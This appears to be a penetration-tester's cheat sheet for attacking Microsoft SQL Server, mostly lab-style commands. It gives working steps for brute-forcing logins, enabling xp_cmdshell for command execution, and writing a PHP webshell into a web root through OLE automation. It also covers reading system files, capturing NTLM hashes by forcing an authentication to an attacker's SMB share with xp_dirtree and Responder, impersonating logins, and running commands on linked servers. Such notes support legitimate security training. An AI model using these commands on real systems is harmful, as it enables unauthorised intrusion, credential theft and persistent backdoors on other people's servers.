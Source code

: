 Bruteforce:

```bash
use auxiliary/scanner/mssql/mssql_login
```

Windows:

```bash
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

Linux:

```
mssqlclient.py -p 1433 julio@10.129.203.7
mssqlclient.py -p 1433 julio@10.129.203.7 -windows-auth 
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h - (Windows Auth)
```

sqlsh

Use `-m vert/ascii` to format the tables

`vert`: Displays results in a vertical format (one column per row), useful for long rows.
`ascii`: Creates clean ASCII table output with aligned columns.

View Databases:

```bash
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```

Select Database:

```bash
1> USE <database>
2> go
```

Show Tables:

```bash
1> SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES
2> GO
```

View table:

```bash
1> SELECT * FROM <table_name>
2> go
```

Command Execution:

```bash
1> xp_cmdshell 'whoami'
2> GO
```

XP_CMDSHELL

Enable:

```bash
1> EXECUTE sp_configure 'show advanced options', 1
2> GO

-- To update the currently configured value for advanced options.  
1> RECONFIGURE
2> GO  

-- To enable the feature.  
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> GO  

-- To update the currently configured value for this feature.  
1> RECONFIGURE
2> GO
```

Write Files

Need to enable Ole Automation Procedures

```bash
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Create a file:

```bash
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

Read Local Files

```bash
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

Stealing User Hash

```bash
auxiliary/admin/mssql/mssql_ntlm_stealer
EXEC master..xp_dirtree '\\10.10.15.65\share\'

responder -I <interface>
```

Identify users we can impersonate

```bash
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Impersonate a user

```bash
1> EXECUTE AS LOGIN = '<USER>'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

Linked Databases

View linked databases:

```bash
1> SELECT srvname, isremote FROM sysservers
2> GO
```

or

```bash
EXEC sp_linkedservers;
```

Verify who we are on the remote server remote server:

```bash
EXEC ('select SYSTEM_USER;') AT [<remote_server>];
```

Gain code execution on remote server  emote server:

```bash
EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [<remote_server>];

EXEC ('EXEC xp_cmdshell ''whoami'';') AT [<remote_server>];
```




